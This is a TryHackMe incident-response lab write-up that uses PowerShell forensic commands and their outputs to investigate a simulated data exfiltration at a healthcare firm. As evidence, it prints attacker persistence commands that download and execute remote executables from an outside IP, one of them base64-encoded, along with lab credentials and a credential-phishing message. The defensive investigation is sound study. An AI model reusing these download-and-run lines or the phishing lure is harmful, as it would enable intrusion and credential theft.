

# TryHackMe-Blizzard

Author:

- **Baris Dincer (Cyber Threat Intelligence Investigator & CIO @ LEX)**

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/blizzard)

> **Scenario Information**
> 

A critical alert was triggered from a sensitive server. You are tasked to perform a live investigation on multiple machines to determine the root cause of the incident. Health Sphere Solutions, a healthcare systems provider on the path to expansion, is taking its first steps towards fortifying its infrastructure security. With the rise of cyber threats, particularly the emergence of Midnight Blizzard, a sophisticated threat group targeting the healthcare sector, the company recognizes the urgent need to protect sensitive customer data. Midnight Blizzard, a notorious threat group, has been implicated in cyber-attacks against healthcare providers. Employing ransomware and phishing tactics, this group has successfully breached healthcare systems, causing significant data loss and operational interruptions. A critical alert was detected on one of Health Sphere Solutions' database servers, highlighting the company's early challenges in securing its network.

```jsx
Alert Timestamp
03/24/2024 19:55:29

Alert Name
POTENTIAL_DATA_EXFIL_DETECTED

Alert Description
A high bandwidth outbound connection from HS-SQL-01 has been detected.

Host Name
HS-SQL-01
```

### Approaches and Commands

> **When did the attacker access this machine from another internal machine?**
> 

Command:

```powershell
Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4624 } |
Select-Object @{Name="TimeCreated";Expression={$_.TimeCreated}},
              @{Name="AccountName";Expression={$_.Properties[5].Value}},
              @{Name="SourceMachine";Expression={$_.Properties[18].Value}} |
Where-Object { $_.TimeCreated -ge "03/24/2024 18:00:00" -and $_.TimeCreated -le "03/24/2024 20:00:00" } |
Format-Table -AutoSize
```

Output - Evidence:

```powershell

TimeCreated          AccountName     SourceMachine

3/24/2024 7:38:49 PM dbadmin         10.10.192.101
3/24/2024 7:38:49 PM dbadmin         10.10.192.101
3/24/2024 7:38:48 PM dbadmin         10.10.192.101
3/24/2024 7:38:01 PM dbadmin         10.10.192.101
3/24/2024 7:36:28 PM dbadmin         10.10.192.101
3/24/2024 7:35:00 PM dbadmin         10.10.192.101
```




Output - Evidence:

```powershell
New Logon:
	Security ID:		HS-SQL-01\dbadmin
	Account Name:		dbadmin
	Account Domain:		HS-SQL-01
	Logon ID:		0x151140
	Linked Logon ID:		0x0
	Network Account Name:	-
	Network Account Domain:	-
	Logon GUID:		{00000000-0000-0000-0000-000000000000}

Process Information:
	Process ID:		0x0
	Process Name:		-

Network Information:
	Workstation Name:	WKSTN-3847
	Source Network Address:	10.10.192.101
	Source Port:		0

Detailed Authentication Information:
	Logon Process:		NtLmSsp 
	Authentication Package:	NTLM
	Transited Services:	-
	Package Name (NTLM only):	NTLM V2
	Key Length:		128
```

Command:

```powershell
Get-WinEvent -LogName "Microsoft-Windows-TerminalServices-LocalSessionManager/Operational" |
Where-Object { $_.Id -eq 21 } |
Select-Object TimeCreated, Message |
Where-Object { $_.TimeCreated -ge "03/24/2024 19:00:00" -and $_.TimeCreated -le "03/24/2024 19:50:00" }
```

Output - Evidence:

```powershell
TimeCreated          Message
-----------          -------
3/24/2024 7:38:53 PM Remote Desktop Services: Session logon succeeded:...
```

Command:

```powershell
Get-WinEvent -LogName "Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational" |
Where-Object { $_.Id -eq 1149 } |
Select-Object TimeCreated, Message, AccountName |
Where-Object { $_.TimeCreated -ge "03/24/2024 19:00:00" -and $_.TimeCreated -le "03/24/2024 19:50:00" }
```

Output - Evidence:

```powershell
TimeCreated          Message
-----------          -------
3/24/2024 7:38:48 PM Remote Desktop Services: User authentication succeeded:...
```

Note:

- The 4624 Event ID in the Windows Security Log signifies a successful logon to a system.
- The 1149 Event ID in the Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational log signifies a successful connection request to a Remote Desktop Session Host (RDSH).
- The Microsoft-Windows-TerminalServices-LocalSessionManager/Operational log is a part of the Windows Event Log system, specifically related to Terminal Services (also known as Remote Desktop Services). This log contains events that provide detailed information about user session activities on a Windows machine, particularly for Remote Desktop Protocol (RDP) and other session-based services.

> **What is the full file path of the binary used by the attacker to exfiltrate data?**
> 

Command:

```powershell
Copy-Item "C:\Windows\AppCompat\Programs\Amcache.hve" -Destination .
```

Command:

```powershell
C:\Tools\AppCompatCacheParser\AppCompatCacheParser.exe --csv .
```

Output:

```powershell
AppCompatCache Parser version 1.5.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/AppCompatCacheParser

Command line: --csv .

Processing hive 'Live Registry'

Found 581 cache entries for Windows10C_11 in ControlSet001

Results saved to '.\20241224134755_Windows10C_11_HS-SQL-01_AppCompatCache.csv'
```

Command:

```powershell
$parsedData = Import-Csv -Path "20241224134755_Windows10C_11_HS-SQL-01_AppCompatCache.csv"
$parsedData | Where-Object {$_.Executed -eq "Yes"}
```

Output-Evidence:

```powershell
ControlSet          : 1
CacheEntryPosition  : 21
Path                : C:\Users\dbadmin\.rclone\rclone-v1.66.0-windows-amd64\rclone.exe
LastModifiedTimeUTC : 2024-03-10 11:40:34
Executed            : Yes
Duplicate           : False
SourceFile          : Live Registry
```

Note:

- The Amcache.hve file is a registry hive used in Windows systems to store metadata about files and executables that have been run or interacted with on the machine. It is a critical artifact for forensic investigations, as it provides evidence of program execution and other file-related metadata.

> **What email is used by the attacker to exfiltrate sensitive data?**
> 

Command:

```powershell
Get-ChildItem -Path C:\Users\dbadmin\AppData\Roaming -Force -Recurse -ErrorAction SilentlyContinue
```

Output - Evidence:

```powershell
    Directory: C:\Users\dbadmin\AppData\Roaming\rclone

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/24/2024   7:50 PM            105 rclone.conf
```

Command:

```powershell
Get-Content "C:\Users\dbadmin\AppData\Roaming\rclone\rclone.conf"
```

Output - Evidence:

```powershell
[remote]
type = mega
user = annajones291@hotmail.com
pass = uSWGlucqqjGAE7ZnKNlH_5chwLNmHmfrwZn1-w
```

> **Where did the attacker store a persistent implant in the registry?**
> 

Command:

```powershell
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run", "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" | Where-Object {$_.PSChildName -ne ""}
```

Output - Evidence:

```powershell
SecurityHealth : C:\Windows\system32\SecurityHealthSystray.exe
SecureUpdate   : powershell.exe -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgB
                 hAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJA
                 BlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA==
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
PSChildName    : Run
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
```

Command:

```powershell
Get-ChildItem -Path "HKLM:\SYSTEM\CurrentControlSet\Services" | Select-Object PSChildName
```

Output - Evidence:

```powershell
SecurityHealthService
```


Output - Evidence:

```powershell
powershell.exe -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJABlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA==
```

Command:

```powershell
$base64String = "aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJABlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA=="
$decodedBytes = [System.Convert]::FromBase64String($base64String)
$decodedString = [System.Text.Encoding]::Unicode.GetString($decodedBytes)
$decodedString
```

Output - Evidence:

```powershell
iwr -useb http://128.199.247.173/configure.exe -outfile $env:appdata\configure.exe; Start-Process $env:appdata\configure.exe; rm $env:appdata\configure.exe
```

Note:

- The registry key HKLM:\Software\Microsoft\Windows\CurrentVersion\Run is a commonly used Windows Registry location for managing programs that automatically run when the system starts. This key resides under the HKEY_LOCAL_MACHINE (HKLM) hive, which applies globally to all users on the machine.

> **Aside from the registry implant, another persistent implant is stored within the machine. When did the attacker implant the alternative backdoor?**
> 

Command:

```powershell
Get-Service | Where-Object {$_.StartType -eq "Automatic"}
```

Output - Evidence:

```powershell
Stopped  CDPUserSvc_9286x   CDPUserSvc_9286x
```

Command:

```powershell
Get-Service | Where-Object {$_.StartType -eq "Automatic"} | ForEach-Object { $serviceName = $_.Name; $servicePath = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName }).PathName; Write-Output "Service Name: $serviceName`nExecutable Path: $servicePath`n--------------------" }
```

Output - Evidence:

```powershell
--------------------
Service Name: CDPUserSvc_9286x
Executable Path: C:\Windows\System32\certutil.exe -urlcache -split -f http://128.199.247.173/status.exe 'C:\Users\Administtrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\status.exe'
--------------------
```


> **When did the attacker send the malicious email?**
> 

Command:

```powershell
ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Local\Microsoft\Outlook\" 2>$null | findstr Directory}
```

Output - Evidence:

```powershell
Directory: C:\Users\m.anderson\AppData\Local\Microsoft\Outlook
```

Command:

```powershell
dir C:\Users\m.anderson\AppData\Local\Microsoft\Outlook
```

Output - Evidence:

```powershell
    Directory: C:\Users\m.anderson\AppData\Local\Microsoft\Outlook

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/24/2024   5:33 PM                Offline Address Books
d-----        3/24/2024   7:18 PM                RoamCache
-a----        3/28/2024   4:52 PM            393 Inferences1CA104B73AEC2047BA3918222A6D39CF_{A83B9649-9974-4A45-AC7F-E22E9CC67A8C}.xml
-a----        3/28/2024   4:52 PM       16818176 m.anderson@healthspheresolutions.onmicrosoft.com.nst
-a----        3/28/2024   4:52 PM       16818176 m.anderson@healthspheresolutions.onmicrosoft.com.ost
```

Command:

```powershell
Get-Item "C:\Users\m.anderson\AppData\Local\Microsoft\Outlook\m.anderson@healthspheresolutions.onmicrosoft.com.ost" | Select-Object FullName, CreationTime, LastWriteTime
```

Output - Evidence:

```powershell
FullName                                                                                                 
--------                                                                                                
C:\Users\m.anderson\AppData\Local\Microsoft\Outlook\m.anderson@healthspheresolutions.onmicrosoft.com.ost

CreationTime         LastWriteTime
------------         -------------
3/24/2024 4:31:06 PM 3/28/2024 4:52:00 PM
```


> **When did the victim open the malicious payload?**
> 

Command:

```powershell
C:\Tools\AppCompatCacheParser\AppCompatCacheParser.exe --csv .
```

Output - Evidence:

```powershell
AppCompatCache Parser version 1.5.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/AppCompatCacheParser

Command line: --csv .

Processing hive 'Live Registry'

Found 662 cache entries for Windows10C_11 in ControlSet001

Results saved to '.\20241225121423_Windows10C_11_WKSTN-3847_AppCompatCache.csv'
```

Command:

```powershell
$parsedData = Import-Csv -Path "20241225121423_Windows10C_11_WKSTN-3847_AppCompatCache.csv"
$parsedData | Where-Object {$_.Executed -eq "Yes"}
```

Output - Evidence:

```powershell
ControlSet          : 1
CacheEntryPosition  : 42
Path                : C:\Users\m.anderson\AppData\Roaming\configure.exe
LastModifiedTimeUTC : 2024-03-24 19:07:49
Executed            : Yes
Duplicate           : False
SourceFile          : Live Registry
```

> **When was the malicious persistent implant created?**
> 

Command:

```powershell
Get-ScheduledTask | Where-Object {$_.Date -ne $null -and $_.State -ne "Disabled"} | Sort-Object Date | select Date,TaskName,Author,State,TaskPath | ft
```

Output - Evidence:

```powershell
Date                        TaskName                                          Author                 State TaskPath
----                        --------                                          ------                 ----- --------
2005-10-11T13:21:17-08:00   Office ClickToRun Service Monitor                 Microsoft Office       Ready \Microsoft\Office\
2006-11-10T14:29:55.5851926 AD RMS Rights Policy Template Management (Manual) Microsoft Corporation  Ready \Microsoft\Windows\Active Directory Rights Management Services Client\
2008-02-25T19:15:00         WinSAT                                            Microsoft             Queued \Microsoft\Windows\Maintenance\
2010-06-10T17:49:20.8844064 Tpm-Maintenance                                   Microsoft Corporation  Ready \Microsoft\Windows\TPM\
2010-09-30T14:53:37.9516706 .NET Framework NGEN v4.0.30319 64                                        Ready \Microsoft\Windows\.NET Framework\
2010-09-30T14:53:37.9516706 .NET Framework NGEN v4.0.30319                                           Ready \Microsoft\Windows\.NET Framework\
2011-07-22T00:00:00.8844064 Sqm-Tasks                                         Microsoft Corporation  Ready \Microsoft\Windows\PI\
2012-02-07T16:39:20         Secure-Boot-Update                                Microsoft Corporation  Ready \Microsoft\Windows\PI\
2013-01-10T16:32:04.2837388 SynchronizeTimeZone                               Microsoft Corporation  Ready \Microsoft\Windows\Time Zone\
2015-02-09T10:54:13.9629482 EDP Policy Manager                                Microsoft Corporation  Ready \Microsoft\Windows\AppID\
2015-02-16T17:49:20.8844064 Tpm-HASCertRetr                                   Microsoft Corporation  Ready \Microsoft\Windows\TPM\
2017-01-01T00:00:00         Office Feature Updates                            Microsoft Office       Ready \Microsoft\Office\
2017-01-01T00:00:00         Office Feature Updates Logon                      Microsoft Office       Ready \Microsoft\Office\
2017-08-05T12:13:18.0043321 Office Automatic Updates 2.0                      Microsoft Office       Ready \Microsoft\Office\
2024-03-24T19:16:23         SysUpdate                                         WKSTN-3847\m.anderson  Ready \Microsoft\Windows\Clip\
```

Command:

```powershell
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" | Select-Object PSChildName, PSPath, CreationTime
```

Output - Evidence:

```powershell
SecurityHealth            : C:\Windows\system32\SecurityHealthSystray.exe
NOT_PART_OF_THE_CHALLENGE : C:\Windows\System32\not_part_of_the_challenge.bat
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
PSChildName               : Run
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry
```

> **What is the domain accessed by the malicious implant?**
> 

Command:

```powershell
Get-NetTCPConnection | select LocalAddress,localport,remoteaddress,remoteport,state,@{name="process";Expression={(get-process -id $_.OwningProcess).ProcessName}}, @{Name="cmdline";Expression={(Get-WmiObject Win32_Process -filter "ProcessId = $($_.OwningProcess)").commandline}} | sort Remoteaddress -Descending | ft -wrap -autosize
```

Output - Evidence:

```powershell
10.10.20.36                     50248 23.216.155.96                       80     SynSent OfficeClickToRun "C:\Program Files\Common Files\Microsoft Shared\ClickToRun\OfficeClickToRun.exe" /service
10.10.20.36                     50247 20.109.210.53                      443     SynSent svchost          C:\Windows\system32\svchost.exe -k netsvcs -p -s wuauserv
10.10.20.36                      3389 10.100.2.141                     55724 Established svchost          C:\Windows\System32\svchost.exe -k termsvcs -s TermService
0.0.0.0                         49668 0.0.0.0                              0      Listen spoolsv          C:\Windows\System32\spoolsv.exe
0.0.0.0                         49672 0.0.0.0                              0      Listen services
0.0.0.0                         49669 0.0.0.0                              0      Listen svchost          C:\Windows\system32\svchost.exe -k NetworkServiceNetworkRestricted -p -s PolicyAgent
0.0.0.0                         50247 0.0.0.0                              0       Bound svchost          C:\Windows\system32\svchost.exe -k netsvcs -p -s wuauserv
0.0.0.0                         50248 0.0.0.0                              0       Bound OfficeClickToRun "C:\Program Files\Common Files\Microsoft Shared\ClickToRun\OfficeClickToRun.exe" /service
0.0.0.0                         49674 0.0.0.0                              0      Listen lsass            C:\Windows\system32\lsass.exe
0.0.0.0                         49665 0.0.0.0                              0      Listen svchost          C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p -s EventLog
0.0.0.0                         49666 0.0.0.0                              0      Listen svchost          C:\Windows\system32\svchost.exe -k netsvcs -p -s Schedule
0.0.0.0                         49667 0.0.0.0                              0      Listen svchost          C:\Windows\System32\svchost.exe -k netsvcs -p -s SessionEnv
```

Command:

```powershell
Get-DnsClientCache | ? Entry -NotMatch "workst|servst|memes|kerb|ws|ocsp" | out-string -width 1000
```

Output - Evidence:

```powershell
e.8.6.5.d.b.0.b.a.8.a.... e.8.6.5.d.b.0.b.a.8.a.... PTR    Success   Answer  603136      8 advancedsolutions.net                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            
sls.update.microsoft.com  sls.update.microsoft.com  CNAME  Success   Answer     102      8 glb.sls.prod.dcat.dsp.trafficmanager.net                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         
sls.update.microsoft.com  glb.sls.prod.dcat.dsp.... A      Success   Answer     102      4 20.109.210.53                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    
g.live.com                g.live.com                CNAME  Success   Answer       2      8 g.msn.com                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        
g.live.com                g.msn.com                 CNAME  Success   Answer       2      8 g-msn-com-nsatc.trafficmanager.net                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               
g.live.com                g-msn-com-nsatc.traffi... A      Success   Answer       2      4 13.74.129.92                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     
advancedsolutions.net     advancedsolutions.net     AAAA   Success   Answer  603136     16 fe80::808e:5a8a:b0bd:568e                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        
advancedsolutions.net                               A      NoRecords  
```

Command:

```powershell
ipconfig /displaydns
```

Output - Evidence:

```powershell
    advancedsolutions.net
    ----------------------------------------
    Record Name . . . . . : advancedsolutions.net
    Record Type . . . . . : 28
    Time To Live  . . . . : 603001
    Data Length . . . . . : 16
    Section . . . . . . . : Answer
    AAAA Record . . . . . : fe80::808e:5a8a:b0bd:568e

    advancedsolutions.net
    ----------------------------------------
    No records of type A
```

Command:

```powershell
Get-NetTCPConnection | Where-Object { $_.State -eq "Established" }
```

Output - Evidence:

```powershell
LocalAddress                        LocalPort RemoteAddress                       RemotePort State       AppliedSetting OwningProcess
------------                        --------- -------------                       ---------- -----       -------------- -------------
fe80::808e:5a8a:b0bd:568e%5         50325     fe80::808e:5a8a:b0bd:568e%5         8080       Established Datacenter     5996
fe80::808e:5a8a:b0bd:568e%5         8080      fe80::808e:5a8a:b0bd:568e%5         50325      Established Datacenter     6852
10.10.20.36                         3389      10.100.2.141                        55724      Established Datacenter     532
```

> **What file did the attacker leverage to gain access to the database server?**
> 

Command:

```powershell
ls -Force C:\Users\m.anderson\Documents
```

Output - Evidence:

```powershell
    Directory: C:\Users\m.anderson\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hsl        3/24/2024   4:00 PM                My Music
d--hsl        3/24/2024   4:00 PM                My Pictures
d--hsl        3/24/2024   4:00 PM                My Videos
-a-h--        3/24/2024   8:06 PM           2246 Default.rdp
-a----        3/24/2024   4:38 PM           1453 demo_automation.ps1
-a-hs-        3/24/2024   4:00 PM            402 desktop.ini
-a----        3/24/2024   4:39 PM            504 New-ADUser.ps1
-a----        3/24/2024   4:39 PM            344 New-ExchangeMailbox.ps1
-a----        3/24/2024   7:06 PM            904 payslip_manderson_202403.zip
-a----        3/24/2024   4:39 PM            592 Set-FileServerPermissions.ps1
-a----        3/24/2024   7:32 PM        5282424 tools.zip
```

Command:

```powershell
Get-Content "C:\Users\m.anderson\Documents\demo_automation.ps1"
```

Output - Evidence:

```powershell
# Define variables
$postgresVersion = "13.3" # Update with the desired PostgreSQL version
$installDir = "C:\Program Files\PostgreSQL\$postgresVersion"
$tempDir = "$env:TEMP\PostgresTemp"
$remoteHost = "HS-SQL-01.healthsphere.com"
$username = "dbadmin" # Hardcoded username
$password = "db@dm1nS3cur3Pass!"
```

> **When did the victim receive the malicious phishing message?**
> 

Command:

```powershell
ls C:\Users\ | foreach {ls “C:\Users\$_\AppData\Roaming\Microsoft\Teams” 2>$null | findstr Directory}
```

Output - Evidence:

```powershell
    Directory: C:\Users\a.ramirez\AppData\Roaming\Microsoft\Teams
    Directory: C:\Users\Administrator\AppData\Roaming\Microsoft\Teams
```

Command:

```powershell
dir C:\Users\a.ramirez\AppData\Roaming\Microsoft\Teams\IndexedDB\
```

Output - Evidence:

```powershell
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/24/2024   4:48 PM                https_teams.microsoft.com_0.indexeddb.blob
d-----        3/24/2024   6:49 PM                https_teams.microsoft.com_0.indexeddb.leveldb
```

Command:

```powershell
C:\Tools\ms_teams_parser.exe -f "C:\Users\a.ramirez\AppData\Roaming\Microsoft\Teams\IndexedDB\https_teams.microsoft.com_0.indexeddb.leveldb\" -o outputramirez.json
cat outputramirez.json | ConvertFrom-Json
```

Output - Evidence:

```powershell
displayName       : Emily Johnson
email             : e.johnson@healthspheresolutions.onmicrosoft.com
mri               : 8:orgid:d29c92f3-b412-47d3-9361-a186d12a7f54
origin_file       : C:\Users\a.ramirez\AppData\Roaming\Microsoft\Teams\IndexedDB\https_teams.microsoft.com_0.indexeddb.leveldb
record_type       : contact
userPrincipalName : e.johnson@healthspheresolutions.onmicrosoft.com

attachments            : {}
cachedDeduplicationKey : 8:live:.cid.268f655553d661d1_3063920760334493725
clientArrivalTime      : 1711305394946.0
clientmessageid        : 3063920760334493725
composetime            : 1711305394946.0
content                : Dear Alexis,

                         We value the security of your Microsoft account and want to ensure that it remains protected at all times.

                         Recently, there has been activity related to your account that requires your attention. While there is no immediate cause for concern, we recommend reviewing your account settings
                         and security information to ensure everything is up-to-date and secure.

                         As part of our security measures, we kindly ask you to confirm your identity by accessing the following link.

                         https://login.sourcesecured.com/support/id/XkSkj321

                         This will help us verify that you are the account's rightful owner.

                         If you did not initiate any recent account activity or have any concerns about the security of your account, please contact our support team immediately.

                         Thank you for being so cooperative in helping us maintain the security of your account.

                         Sincerely,
                         Microsoft Identity Provider
contenttype            : text
conversationId         : 19:uni01_kwqsezf3kqqfcqfwllsbwohsk34sqwo4bzuxkwxzrmr5geomteea@thread.v2
createdTime            : 2024-03-24T18:36:34.946000
creator                : 8:live:.cid.268f655553d661d1
isFromMe               : False
messageKind            :
messagetype            : RichText/Html
origin_file            : C:\Users\a.ramirez\AppData\Roaming\Microsoft\Teams\IndexedDB\https_teams.microsoft.com_0.indexeddb.leveldb
originalArrivalTime    : 1711305394038.0
properties             : @{importance=; languageStamp=languages=en:100;fil:61;id:59;length:928;&detector=Bling; subject=}
record_type            : message
version                : 2024-03-24T18:36:34.038000

attachments            : {}
cachedDeduplicationKey : 8:orgid:0a6577a0-b76f-45ba-ba51-f1d8648c6734_1062430014308698874
clientArrivalTime      : 1711298804498.0
clientmessageid        : 1062430014308698874
composetime            : 1711298804498.0
content                : Actually, yes. I just had a meeting with the finance team this morning to go over some adjustments. I'll send you an updated spreadsheet shortly.
contenttype            : Text
conversationId         : 19:0a6577a0-b76f-45ba-ba51-f1d8648c6734_a7dfe0c5-ba80-4519-8ca6-4d838bb56c74@unq.gbl.spaces
createdTime            : 2024-03-24T16:46:44.498000
creator                : 8:orgid:0a6577a0-b76f-45ba-ba51-f1d8648c6734
isFromMe               : False
messageKind            :
messagetype            : RichText/Html
origin_file            : C:\Users\a.ramirez\AppData\Roaming\Microsoft\Teams\IndexedDB\https_teams.microsoft.com_0.indexeddb.leveldb
originalArrivalTime    : 1711135579661.0
properties             : @{cards=System.Object[]; files=System.Object[]; languageStamp=languages=en:100;fil:68;id:65;length:145;&detector=Bling; links=System.Object[]; mentions=System.Object[]}
record_type            : message
version                : 2024-03-22T19:26:19.661000
```

Command:

```powershell
ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Local\Google\Chrome\User Data\Default" 2>$null | findstr Directory}
```

Output - Evidence:

```powershell
    Directory: C:\Users\a.ramirez\AppData\Local\Google\Chrome\User Data\Default
    Directory: C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default
```


